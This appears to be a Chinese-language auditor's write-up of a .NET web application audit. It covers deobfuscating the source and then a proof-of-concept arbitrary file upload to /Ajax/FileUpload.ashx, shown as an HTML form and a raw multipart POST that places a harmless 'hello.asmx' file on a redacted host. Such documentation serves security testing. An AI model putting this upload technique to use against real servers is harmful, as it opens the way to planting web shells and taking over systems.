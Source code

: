 拿到源码的时候发现有混淆<br />![46cb1c2b4bd476cf95ad0fe6621fc8f.png](https://cdn.nlark.com/yuque/0/2023/png/1345801/1672928225464-7c8fcf74-10ad-4d48-9263-f0e1b74e47a1.png#averageHue=%2321201f&clientId=ucf6fbb0e-5732-4&from=paste&height=496&id=ub1b76edb&originHeight=620&originWidth=1033&originalType=binary&ratio=1&rotation=0&showTitle=false&size=75466&status=done&style=none&taskId=ud3496b1c-deca-4f7c-ac17-16400c300aa&title=&width=826.4)<br />用这个去混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/1345801/1672928183886-f75d3ede-1a94-4039-a3b1-d534803a8657.png#averageHue=%2304285b&clientId=ucf6fbb0e-5732-4&from=paste&height=38&id=u4da03087&originHeight=48&originWidth=760&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8012&status=done&style=none&taskId=ub6caccf4-78b9-459d-9871-83b15b798be&title=&width=608)

审计的时候发现碰到了这个坑，context.Request.Files.Count.Equals(0)，导致我包构造的时候，无法摆脱逻辑<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/1345801/1672762644951-6b062fce-193d-4442-a6b5-096bfd9ac649.png#averageHue=%23222120&clientId=u9aed601e-bc18-4&from=paste&height=228&id=ua44aa3d8&originHeight=285&originWidth=853&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41931&status=done&style=none&taskId=ud2145e0e-e4d5-44f9-acc3-8613ef5ffb8&title=&width=682.4)<br />连postman也搞不定<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/1345801/1672762797945-4290311b-541e-4e58-a8b1-90443954a8bb.png#averageHue=%23fbfafa&clientId=u9aed601e-bc18-4&from=paste&height=490&id=uabb22237&originHeight=612&originWidth=732&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43257&status=done&style=none&taskId=u6f308839-af8c-4ebb-9891-11462a352e6&title=&width=585.6)

最后是百度找了个前端代码，enctype="multipart/form-data"，成功解决问题
```
<form action="http://xxxx/Ajax/FileUpload.ashx?name=1.png" method="post" enctype="multipart/form-data" >
　　　<input type="file" id="file" name="upload" /> <br />
　　　<input type="submit" value="Upload" />
</form>
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/1345801/1672762872390-d9a93024-eeda-4e12-a51a-205d988b1e27.png#averageHue=%23faf9f9&clientId=u9aed601e-bc18-4&from=paste&height=365&id=u1e7ac413&originHeight=456&originWidth=1288&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22847&status=done&style=none&taskId=ue979d12c-e88d-4483-9c19-19191cef0e7&title=&width=1030.4)

对应的请求包
```
POST /Ajax/FileUpload.ashx?name=1.png HTTP/1.1
Host: xxx:8008
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33169903223329083827993860364
Content-Length: 223
Origin: null
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------33169903223329083827993860364
Content-Disposition: form-data; name="file"; filename="hello.asmx"
Content-Type: image/jpeg

123
-----------------------------33169903223329083827993860364--

```
